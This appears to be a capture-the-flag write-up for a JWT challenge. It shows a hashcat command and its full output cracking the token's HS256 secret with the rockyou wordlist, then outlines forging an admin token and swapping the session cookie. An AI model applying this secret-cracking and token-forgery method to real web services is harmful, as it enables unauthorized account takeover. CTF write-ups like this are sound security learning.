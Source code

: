 this is basic Jwt token challenge... 
first of all we have to brute force the signature with rockyou.txt

    Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoic3VyeWEifQ.mm1bbVx9gKE2-6v04AVnsAqsNArckjYAOwE5TUucJKA

_______________________________________________________________________________________________________________________________________________________________________________________________________________


    hashcat -m 16500 -a 0 jwt.txt rockyou.txt
    hashcat (v6.2.6) starting
    
    OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
    ==================================================================================================================================================
    * Device #1: cpu-skylake-avx512-AMD Ryzen 5 7640HS w/ Radeon 760M Graphics, 2711/5487 MB (1024 MB allocatable), 12MCU
    
    Minimum password length supported by kernel: 0
    Maximum password length supported by kernel: 256
    
    Hashes: 1 digests; 1 unique digests, 1 unique salts
    Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
    Rules: 1
    
    Optimizers applied:
    * Zero-Byte
    * Not-Iterated
    * Single-Hash
    * Single-Salt
    
    Watchdog: Hardware monitoring interface not found on your system.
    Watchdog: Temperature abort trigger disabled.
    
    Host memory required for this attack: 3 MB
    
    Dictionary cache built:
    * Filename..: rockyou.txt
    * Passwords.: 14344392
    * Bytes.....: 139921507
    * Keyspace..: 14344385
    * Runtime...: 2 secs
    
    eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoic3VyeWEifQ.mm1bbVx9gKE2-6v04AVnsAqsNArckjYAOwE5TUucJKA:ilovepico
    
    Session..........: hashcat
    Status...........: Cracked
    Hash.Mode........: 16500 (JWT (JSON Web Token))
    Hash.Target......: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoic3...UucJKA
    Time.Started.....: Sat Jun 28 18:55:41 2025 (6 secs)
    Time.Estimated...: Sat Jun 28 18:55:47 2025 (0 secs)
    Kernel.Feature...: Pure Kernel
    Guess.Base.......: File (rockyou.txt)
    Guess.Queue......: 1/1 (100.00%)
    Speed.#1.........:  1265.3 kH/s (2.14ms) @ Accel:512 Loops:1 Thr:1 Vec:16
    Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
    Progress.........: 7397376/14344385 (51.57%)
    Rejected.........: 0/7397376 (0.00%)
    Restore.Point....: 7391232/14344385 (51.53%)
    Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
    Candidate.Engine.: Device Generator
    Candidates.#1....: ilovesky5 -> ilovemymum64.
    
    Started: Sat Jun 28 18:54:58 2025
    Stopped: Sat Jun 28 18:55:48 2025


We got the key : ilovepico
now we can just change anything in the token ... we'll make new token with user=admin
and then change the cookie with some cookie editor extension

![image](https://github.com/user-attachments/assets/a5d7deb9-350f-44c1-9f7e-7e07f95fb7be)
